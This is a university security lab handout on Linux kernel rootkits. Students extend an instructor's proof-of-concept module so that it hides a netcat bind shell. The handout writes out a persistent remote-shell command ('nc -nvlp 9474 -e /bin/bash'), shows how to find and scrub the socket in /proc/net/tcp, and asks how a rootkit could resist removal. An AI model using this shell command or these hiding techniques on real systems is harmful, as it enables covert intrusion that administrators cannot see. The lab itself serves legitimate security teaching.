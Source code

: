 ```yaml
---
title: Kernel Backdoors and Rootkits
parent: System Security
nav_order: 2
summary: Rootkits
---
```


# Lab 9: Kernel Rootkits

This lab will introduce you to both kernel module programming and to kernel
backdoors and rootkits. You will take an existing kernel rootkit written by your instructor
and extend it.

**Due Date: Monday 03/07/22 before class**

## Lab Description
This lab will guide you through kernel rootkit construction. More details are
in the code's repo and below, but here is the gist. The rootkit already is
written to:

- Hide our rootkit source and object files from the filesystem (`b4rnd00r.{c,ko}`)
- Hide our rootkit from the kernel's list of loaded modules (by scrubbing `/proc/modules`)
- Hide our parasite library from the previous lab, `libtest.so.1.0`, (by scrubbing `/proc/PID/maps`)
- Create a local backdoor to get us root by exposing a device file at
  `/dev/b4rn`. When a user writes a [special string](https://www.youtube.com/watch?v=7R0mD3uWk5c) to that file, the user will
  become root.
- Hiding the backdoor character device file (`/dev/b4rn`).

### Getting the Code
You'll want to use the SEED 16.04 Ubuntu VM for this lab. In the VM, you can
get the code for this lab by cloning your instructor's repo:

```bash
git clone https://github.com/khale/kernel-rootkit-poc
```
Make sure to go through the `README` in the repo. The SEED VM should have everything necessary to load the rootkit.


### Task 1: The code
Understand the code. You should realize that the kernel module's entry point
(`b4rn_init()`) is invoked after the module is loaded by the kernel (e.g., by
`insmod` or `modprobe`). Start there and read comments carefully.

### Task 2: The Backdoor

Could an attacker use the backdoor exposed by the rootkit to remotely get
access? Explain why or why not.

Realize that this is a pretty rudimentary backdoor. There are certainly more stealthy ways to do this (e.g., so we don't create an unwanted device file on the system). Can you think of any?

By the way, there have been [nefarious attempts](https://lwn.net/Articles/57135/) to backdoor the kernel itself,
though they were unsuccessful. This isn't limited by any means to kernel space.
The NSA is suspected to have [backdoored](https://miracl.com/blog/backdoors-in-nist-elliptic-curves/) a standard altorithm widely used for
encryption. Your instructor's [favorite example of a backdoor](https://www.win.tue.nl/~aeb/linux/hh/thompson/trust.html) was one injected
by a C compiler into the UNIX login program, devised by the [UNIX man himself](https://en.wikipedia.org/wiki/Ken_Thompson).
Definitely worth a read.


### Task 3: Hiding in Plain Sight

Explain why we must (1) use function pointers and `kallsyms_*()` functions to call certain routines and (2) manipulate `cr0` and page protections to install our function overrides.

Suppose I wanted to make it very hard for a system administrator to remove my rootkit from the system. What are some things I could do to prevent that? (Hint: there is a `reboot()` system call)

### Task 4: Remote Backdoor

For this task you'll be extending b4rnd00r to hide a remote backdoor (i.e.,
a bindshell running on the system). First run a bind shell like so:

```bash
nohup nc -nvlp 9474 -e /bin/bash >/dev/null 2>&1 &
```
(note, you may have to install `netcat-traditional` for this to work).

This listens on port 9474, and when a client connects it will spawn a shell and
send output back out over the network socket. The `nohup` command prevents the
netcat program from exiting after we log out of the system (which we would
probably do after we've owned a machine and set up the backdoor). The
redirection just silences output on the server side.

If you've got bridged networking set up for your VM, you should be able to
access this bind shell as follows from your **host** machine:

```bash
nc <VM-IP> 9474
```

You can access it with NAT networking as well, but you'll have to forward the
9474 port with your hypervisor. It's probably just easier to use bridged
networking. Other than the `nc` process itself, the listening socket can be seen
by an auditor pretty easily by using `netstat`:

```
$ netstat -tl
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State      
    tcp        0      0 cato:domain             0.0.0.0:*               LISTEN     
    tcp        0      0 localhost:ipp           0.0.0.0:*               LISTEN     
    tcp        0      0 0.0.0.0:9474            0.0.0.0:*               LISTEN     
    tcp6       0      0 localhost:ipp           [::]:*                  LISTEN     
    tcp6       0      0 [::]:9474               [::]:*                  LISTEN
```


This is no good if we're trying to be stealthy. We can pretty much guess that
this information is coming from the kernel, and almost certainly from `/proc`
somewhere, and that `netstat` is really just sugar coating the kernel's output.
We can do some digging to find out exactly where:

```
 $ strace netstat -tl 2>&1 | grep "^open" | grep "proc"
    openat(AT_FDCWD, "/proc/net/tcp", O_RDONLY) = 3
    openat(AT_FDCWD, "/proc/net/tcp6", O_RDONLY) = 3
```

Sure enough, `netstat` is really just a wrapper around the `/proc` interface. Let's
see the raw information straight from the source (the kernel):

```
$ cat /proc/net/tcp
     sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
       0: 017AA8C0:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 34934 1 000000007060ba94 100 0 0 10 0 
       1: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 30174 1 00000000d07a82df 100 0 0 10 0
       2: 00000000:2502 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 59441 1 000000003a4d11ec 100 0 0 10 0
```

You can see why `netstat` exists now. This output is pretty opaque. If we
realize that 9474 is actually 0x2502, however, we can pretty easily identify
our bind shell. This gives us a hint on how to hide our connection then,
because we really just need to scrub this output to remove that line in our
rootkit. This is your task!

Some hints:
- You should be able to use the same `seq_file` technique used for the maps file.
- Network sockets are also exposed in `/proc`. You will focus on TCP (IPv4). You will thus need to take a look at `/proc/net/tcp` (or `/proc/self/net/tcp`).
- You'll want to see the `tcp4_seq_show()` [function](https://elixir.bootlin.com/linux/v4.8/source/net/ipv4/tcp_ipv4.c#L2257).
- When you override the seq file, you will need to use the `struct inet_sock` [structure](https://elixir.bootlin.com/linux/v4.8/source/include/net/sock.h#L306) (which you can derive from the `v` pointer in your seq handler). Given a `struct sock * sk`, you will need to extract the port number from the socket structure like so: `ntohs(inet_sk(sk)->inet_sport)`.
- You don't need to use `unprotect_page()` and `protect_page()` like was done for the maps file.
- Make sure not to dereference the special start socket (if `v==SEQ_START_TOKEN`, just pass it along to the normal seq function).

<!--
- The proc dirs for `/proc/net` are organized in a red black tree. See [here](https://lwn.net/Articles/184495/) and understand the `init_net` struct from the `net/tcp.h` [header](https://elixir.bootlin.com/linux/v4.8/source/include/net/tcp.h) and its `proc_net` member field. You will want to use [helper functions](https://elixir.bootlin.com/linux/v4.8/source/include/linux/rbtree.h#L69) provided by Linux like `rb_first()`, `rb_last()`, `rb_entry()`, `struct proc_dir_entry` etc.
--> 

## Handin
Please write your lab report according to the description. Please also list the
important code snippets followed by your explanation. You will not receive
credit if you simply attach code without any explanation. Upload your answers
as a PDF to blackboard


## Suggested Reading
- Intro to [Linux kernel modules](https://tldp.org/HOWTO/Module-HOWTO/x73.html)
- Linux VFS, proc, and root filesystems [article](Linux VFS, proc, and root filesystems article)
- Kernel documentation on [seq files](https://www.kernel.org/doc/Documentation/filesystems/seq_file.txt)
- Another [rootkit example](https://0x00sec.org/t/hiding-with-a-linux-rootkit/4532)
- [Article](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9) on bind shells, reverse
shells, etc.
- [Sysdig](https://github.com/draios/sysdig)
- [Looking back at Multics security](https://hack.org/mc/texts/classic-multics.pdf)

